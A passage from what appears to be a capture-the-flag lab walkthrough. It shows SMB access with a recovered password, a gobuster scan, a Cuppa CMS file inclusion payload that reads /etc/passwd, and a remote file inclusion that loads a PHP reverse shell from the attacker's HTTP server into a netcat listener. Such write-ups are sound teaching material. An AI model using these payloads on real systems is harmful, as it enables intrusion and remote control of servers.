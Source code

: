 <img width="1141" alt="19" src="https://user-images.githubusercontent.com/28839345/165290980-e4e7859d-4d25-4d0d-a2da-7666600ac551.png">

As you see the password is 

')s{A&2Z=F^n_E.B'

Connect to milesdyson smb account.
`smbclient -U milesdyson //10.10.236.12/milesdyson`

<img width="709" alt="20" src="https://user-images.githubusercontent.com/28839345/165290983-f88ac6eb-a02d-46b5-acff-02471e3ab3ee.png">
Then type `ls` to see Miles files.

<img width="920" alt="21" src="https://user-images.githubusercontent.com/28839345/165290986-bbc4183a-4dab-4e23-b9a9-eb4aa3f69fee.png">

<img width="900" alt="22" src="https://user-images.githubusercontent.com/28839345/165290992-bd607c5c-80d6-49f3-ba73-f3651bb34c26.png">


<img width="739" alt="23" src="https://user-images.githubusercontent.com/28839345/165290995-7fcfba98-ebdc-42c1-9b95-5cfb43160438.png">

Read the file 'important.txt' by running the command `more important.txt`.

You will see that there is a hidden directory.Go to that directory.

<img width="435" alt="24" src="https://user-images.githubusercontent.com/28839345/165291000-7e2e9ba4-a7dd-4755-b302-61ab822f407a.png">

Run gobuster to search for other subdiretories.

`gobuster dir -u 10.10.236.12/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirb/common.txt`

<img width="1074" alt="25" src="https://user-images.githubusercontent.com/28839345/165291003-83f4014f-af59-4916-b978-dbe289b0c752.png">

Go to the new directory discovered at 'http://10.10.236.12/45kra24zxs28v3yd/administrator'.Then google CUPA CMS exploit and you will find a remote file inclusion exploit -# Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion.

First test if the exploit works.Type this on the url input 'http:/10.10.236.12/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd' and you should see the content of the /etc/passwd file.


<img width="1433" alt="29" src="https://user-images.githubusercontent.com/28839345/165291035-36f866d0-0b95-4e67-b342-e0166339f35a.png">

Then download a php reverse shell from pentestmonkey.com and name the file 'php-reverse-shell.php' in your home directory.Change the ip to your machines IP and port number to 1234.Run netcat `nc -nlvp 1234` and start a python HTTP server by running the command `python3 -m http.server`.Finally to connect to the web server with the reverse php shell redirect to http://10.10.200.71/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.200.71:8000/php-reverse-shell.php.

Step 1.
Save the php reverse shell with the corrent IP and port number.

<img width="607" alt="30" src="https://user-images.githubusercontent.com/28839345/165291064-f909e5df-b5c5-4b7b-b385-1995c6692b2b.png">

Step 2.
Start the http server.
